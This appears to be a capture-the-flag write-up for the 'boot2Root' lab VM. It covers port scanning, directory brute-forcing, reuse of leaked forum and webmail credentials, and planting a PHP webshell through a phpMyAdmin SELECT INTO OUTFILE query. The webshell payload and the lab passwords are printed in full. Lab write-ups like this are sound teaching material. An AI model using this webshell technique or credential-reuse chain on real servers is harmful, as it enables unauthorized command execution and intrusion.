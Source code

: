 # Root privilege escalation - Method 1

## Get VM IP

Requirements:

- VirtualBox Guest Addition

As there is no visible IP in the virtual machine, we need to find the IP.

We could use VboxManage for this job. There is multiple way to get it.

```shell
# On host machine
VM_NAME="boot2Root"

MAC_ADDRESS=`VBoxManage showvminfo $VM_NAME | grep -oP 'MAC: \K[^",]+' | sed -e 's/[0-9A-F]\{2\}/&:/g' -e 's/:$//'` # sed adds ':' every two chars
VM_IP=`ip neighbor | grep -i $MAC_ADDRESS | cut -d' ' -f1`

export BR_HOST=$VM_IP
```

---

## Scan Ports

Requirements: nmap

Now we have the IP, we can scan the open ports with `nmap`

```shell
nmap $B2R_HOST

  Starting Nmap 7.60 ( https://nmap.org ) at 2020-12-09 11:20 CET
  Nmap scan report for BornToSecHackMe-1.home (192.168.1.72)
  Host is up (0.00016s latency).
  Not shown: 994 closed ports
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  80/tcp  open  http
  143/tcp open  imap
  443/tcp open  https
  993/tcp open  imaps

  Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

## Directory Bruteforcing on Web Server

Lets investigate the ports 80 (http) and 443 (https)

### Port 80

Requirements: dirb or dirbuster

```shell
dirb http://192.168.1.74

  ---- Scanning URL: https://192.168.1.73/ ----
  + http://192.168.1.74/cgi-bin/ (CODE:403|SIZE:288)
  ==> DIRECTORY: http://192.168.1.74/fonts/
  + http://192.168.1.74/forum (CODE:403|SIZE:285)
  + http://192.168.1.74/index.html (CODE:200|SIZE:1025)
  + http://192.168.1.74/server-status (CODE:403|SIZE:293)
```

#### /index.html

Static page. Nothing really interesting
![](images/index:80.png)

#### /forum

![](images/forum:80.png)

---

### Port 443

Lets see if we are luckier with https port

```shell
dirb https://192.168.1.74

  ---- Scanning URL: https://192.168.1.74/ ----
  + https://192.168.1.74/cgi-bin/ (CODE:403|SIZE:289)
  ==> DIRECTORY: https://192.168.1.74/forum/
  ==> DIRECTORY: https://192.168.1.74/phpmyadmin/
  + https://192.168.1.74/server-status (CODE:403|SIZE:294)
  ==> DIRECTORY: https://192.168.1.74/webmail/
```

In addition to the `/forum`, we have two more directories: `phpmyadmin` and `webmail`

#### /forum

This time the forum is accessible.

One post from `lmezard` is particularly interesting: `/forum/index.php?mode=thread&id=6`
The user `lmezard` has posted a long auth log that contains string with random chars like a password.

We can image the user has typed multiples times the password, and has typed the password instead of the user.

![](images/auth_log.png)

Lets try to log in with the couple `lmezard`:`!q\]Ej?*5K5cy*AJ`

It works and we can access to the user account settings

We can see an email: `laurie@borntosec.com`. It will be useful later.

We remember there is a `/webmail` folder, lets check it out.

#### /webmail

Many people uses the same password everywhere. Does `lmezard` do it ?

We try to connect with: `laurie@borntosec.com`:`!q\]Ej?*5K5cy*AJ`

It works ! There is two mails. One object mail is: "DB ACCESS"
![](images/mail_db_access.png)

#### /phpmyadmin

We can access the database with the credentials `root`:`Fg-'kKXBj87E:aJ$`

##### userdata table

There is a database named `forum-db` that contains tables including `mlf2-userdata`. This table contains a field `user_pw` of 50 characters.

![](images/mlf2_userdata.png)

While looking the source code of "mlf" ([mylittleforum](https://github.com/ilosuna/mylittleforum)), we found [how the password is hashed](https://github.com/ilosuna/mylittleforum/blob/ffbea1564ec76587e37acac1d33da519729c107c/includes/functions.inc.php#L2077-L2089):

```php
function generate_pw_hash($pw)
{
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
}
```

The algorithm is SHA-1 and a selt of 10 characters if append as suffix.

Unfortunately, we never succeed to unhash the passwords.

##### Webshell

We [discover](<(https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)>) we are able to create a web shell using a SQL request.

The given webshell is:

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

Unfortunately, we can not write at `/var/www/phpMyAdmin/cmd.php`, but it works if the path is `/tmp/aaa`. We need to find a path with correct rights.
![](images/webshell_cant_write.png)

`dirb` tool could maybe help us.

```shell
dirb https://192.168.1.74

  (...)
  ---- Entering directory: https://192.168.1.74/forum/ ----
  + https://192.168.1.74/forum/backup (CODE:403|SIZE:293)
  + https://192.168.1.74/forum/config (CODE:403|SIZE:293)
  ==> DIRECTORY: https://192.168.1.74/forum/images/
  ==> DIRECTORY: https://192.168.1.74/forum/includes/
  + https://192.168.1.74/forum/index (CODE:200|SIZE:4935)
  + https://192.168.1.74/forum/index.php (CODE:200|SIZE:4935)
  ==> DIRECTORY: https://192.168.1.74/forum/js/
  ==> DIRECTORY: https://192.168.1.74/forum/lang/
  ==> DIRECTORY: https://192.168.1.74/forum/modules/
  ==> DIRECTORY: https://192.168.1.74/forum/templates_c/
  ==> DIRECTORY: https://192.168.1.74/forum/themes/
  ==> DIRECTORY: https://192.168.1.74/forum/update/
  (...)
```

|                                      |                                                  |
| ------------------------------------ | ------------------------------------------------ |
| `/var/www/phpMyAdmin/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/cmd.php`                   | ❌ Can't create/write to file                    |
| `/var/www/forum/cmd.php`             | ❌ Can't create/write to file                    |
| `/var/www/forum/js/cmd.php`          | ❌ Can't create/write to file                    |
| `/var/www/forum/lang/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/forum/modules/cmd.php`     | ❌ Can't create/write to file                    |
| `/var/www/forum/templates_c/cmd.php` | ✅ Your SQL query has been executed successfully |

Cool, lets check it out at https://192.168.1.74/forum/templates_c/cmd.php
![](images/webshell_test.png)

We have a shell-like

---

### Sources

## Hack

- [5 Ways to Directory Bruteforcing on Web Server](https://www.hackingarticles.in/5-ways-directory-bruteforcing-web-server/)
- [Linux Hacking Case Studies Part 3: phpMyAdmin](https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)

## WebShell

- [phpMyAdminWebShell.sql](https://github.com/nullbind/Other-Projects/blob/master/random/phpMyAdminWebShell.sql)

## Sources

- [mylittleforum sources](https://github.com/ilosuna/mylittleforum)

## Man

- [nmap](https://linux.die.net/man/1/nmap)
- [dirb](https://tools.kali.org/web-applications/dirb)
